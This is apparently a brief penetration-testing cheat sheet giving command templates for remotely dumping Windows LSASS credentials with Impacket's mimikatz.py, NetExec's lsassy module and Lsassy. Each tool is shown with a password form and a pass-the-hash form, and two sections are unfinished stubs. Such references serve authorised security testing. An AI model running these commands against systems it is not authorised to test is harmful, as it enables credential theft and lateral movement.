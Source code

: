 # Unix Shell

## Impacket

```
$ mimikatz.py [<domain>/]<username>:<password>@<IP>

$ mimikatz.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

## NetExec

TODO: Fill this info

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M lsassy

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] -M lsassy
```

## Lsassy

TODO: Fill this info

```
$ lsassy [-d <domain>] -u <username> -p <passwords> ip_targets.txt

$ lsassy [-d <domain>] -u <username> -H [<lm_hash>:]<nt_hash> ip_targets.txt
```

---
## References

- [Lsassy](https://github.com/Hackndo/lsassy)